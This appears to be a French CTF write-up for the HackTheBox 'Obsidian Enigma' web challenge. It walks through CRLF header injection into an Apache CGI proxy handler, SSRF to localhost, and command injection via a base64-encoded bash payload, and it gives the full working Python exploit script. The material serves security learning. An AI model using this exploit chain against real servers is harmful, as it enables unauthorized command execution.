 ![alt text](img/Pasted_image_20250325230612.png)

### SCAN 
![alt text](img/Pasted_image_20250325230632.png)
### ENUMERATION

![alt text](img/Pasted_image_20250325230657.png)
### WEB BROWSER

![alt text](img/Pasted_image_20250325230710.png)

Indice dans l'inspector : 
![alt text](img/Pasted_image_20250325230820.png)

Essayons de nous faire passer pour un **localhost** :

mouai : 
La requête:
curl -v 'http://83.136.252.23:46546/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3dtest%3f%0d%0a%0d%0a'

![alt text](img/Pasted_image_20250325235553.png)

### Explication


### Test : 

```bash 
curl -v 'http://83.136.253.71:46720/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3d%27%3bcat%20flag.txt%3b%27%0d%0a%0d%0a'

```

En fait c'est **target** qui est injectable : 

![alt text](img/Pasted_image_20250326001955.png)
```bash
curl -v 'http://83.136.252.23:46546/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3dtest%3f%0d%0a%0d%0a'
```

```sh
curl -v 'http://83.136.253.71:46720/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation%3a%2fooo%0d%0aContent-Type%3aproxy%3ahttp%3a%2f%2flocalhost%2fcgi-bin%2fattack-ip%3ftarget%3d127.0.0.1%3bcat%20flag.txt%26name%3dtest%0d%0a%0d%0a'
```

c'est sur que c'est ça : 
![alt text](img/Pasted_image_20250326002734.png)

Mais la facon de le faire n'est pas la bonne > 
En voyant le WritesUP lets retry : [cyber-apocalypse-2025/web/web_obsidian_enigma at main · hackthebox/cyber-apocalypse-2025](https://github.com/hackthebox/cyber-apocalypse-2025/tree/main/web/web_obsidian_enigma)

On peut juste commencer par afficher le Status du serveur dans le **header** Content-type : 

**Payload** : 
`/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:server-status%0d%0a%0d%0a`

Ce qui correspond à : 
```sh
/cgi-bin/attack-domain?target=test&name=asdfasfd
Location:/as
Content-Type:server-status
```

![alt text](img/Pasted_image_20250327110454.png)

On remarque que le server répond. C'est là que nous pouvons faire une SSRF attack en remplacant le **Server-Status** par `proxy:http://127.0.0.1/cgi-bin/attack-ip` 
Nous n'allons pas prendre **attack-domain.py** car il y a u filtre sur le *{target}*

`attack-ip.py` 
```python
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
```

Maintenant que l'on sait ça, on peut scrypter le tout avec **python** as always...

Le code : 

```python
from requests import get
url = 'http://localhost:1337'

def quote(s):
    return ''.join([f'%{hex(ord(c))[2:]}' for c in s])
def dquote(s):
    return quote(quote(s))

from base64 import b64encode
payload = b64encode(b'cat /flag* > /var/www/html/flag.txt').decode()

handler = f'proxy:http://127.0.0.1/cgi-bin/attack-ip?name=asfs{quote('&')}target=::1{dquote(f"%; echo \"{payload}\" | base64 -d | bash")}{quote('&')}dummy='

get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(get(f'{url}/flag.txt').text)
```

Décortiquons le code : 

`1 : quote(s) &  dquote(s)`
Cette fonction permet de retourner une version encodée en URL où chaque caractère est remplacé par son équivalent hexadécimal précédé d'un `%`
Si on applique deux fois la fonction **quotes** comme dans **dquotes** alors on décode ;)

`2 : base64 `
Encoder la payload en base64 pour permettre de l'envoyer sur le server. Une fois décoder, la **payload** va donc s'exécuter sur le poste > 

![alt text](img/Pasted_image_20250327110611.png)

`3 : handler`
Le **handler** sera notre chaine de caractère complexe qui incluera le `quote` et `dquote` et la `payload` en base64. 

On envoie donc ensuite en **GET** cette chaine de caractère qui est notre URL. 

Cette requête va nous permettre d'envoyer ensuite une commande **bash** au server et ainsi faire un `cat ./flag.txt`


On `print` les sorties : 
![alt text](img/Pasted_image_20250327111209.png)

Et si on keep que le **flag.txt** 
![alt text](img/Pasted_image_20250327111248.png)

